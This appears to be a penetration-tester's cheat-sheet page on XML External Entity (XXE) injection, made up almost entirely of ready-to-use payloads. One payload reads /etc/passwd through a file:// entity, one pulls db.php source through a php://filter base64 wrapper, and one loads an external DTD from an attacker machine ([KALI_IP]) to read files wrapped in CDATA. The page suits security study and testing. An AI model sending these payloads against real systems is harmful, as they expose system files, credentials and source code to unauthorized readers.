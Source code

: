 # XXE

`file://` can also be used to list directories.

```xml
Content-Type: application/json

<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
	<bugreport>
		<title>&xxe;</title>
		<cwe></cwe>
		<cvss></cvss>
		<reward></reward>
	</bugreport>
```

{% code overflow="wrap" %}
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>wef</cwe>
		<cvss>wef</cvss>
		<reward>wef</reward>
	</bugreport>
```
{% endcode %}

## Reading XML Files with CDATA

Bypass `<` and `>` parsing issue. Content inside CDATA wrapper are not rendered.

{% code overflow="wrap" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///file/to/read.xml" >
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://[KALI_IP]/wrapper.dtd" >
%dtd;
]>
<org.opencrx.kernel.account1.Contact>
  <lastName>&wrapper;</lastName>
  <firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```
{% endcode %}

**wrapper.dtd** hosted on kali:

```xml
<!ENTITY wrapper "%start;%file;%end;">
```
